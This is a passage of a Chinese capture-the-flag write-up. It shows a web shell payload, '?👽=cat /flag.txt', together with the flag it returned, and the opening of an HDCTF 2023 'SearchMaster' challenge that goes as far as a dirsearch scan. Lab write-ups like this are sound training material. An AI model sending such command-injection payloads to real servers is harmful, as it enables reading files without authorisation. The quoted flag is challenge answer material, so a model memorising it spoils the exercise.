 **payload**

```
?👽=cat /flag.txt
FSCTF{h3llo_ctfe2_5ign_in_webshell_Is_e@sy_right}
```

这个flag不能改成NSSCTF，直接提交才行







# [HDCTF 2023]SearchMaster

![image-20250820073239696](./NSSCTF-6.assets/image-20250820073239696.png)

翻源码和请求头，都没有东西，但给了我们以一个提示，可以post传数据

我们尝试dirsearch扫描一波

![image-20250820073343850](./NSSCTF-6.assets/image-20250820073343850.png)
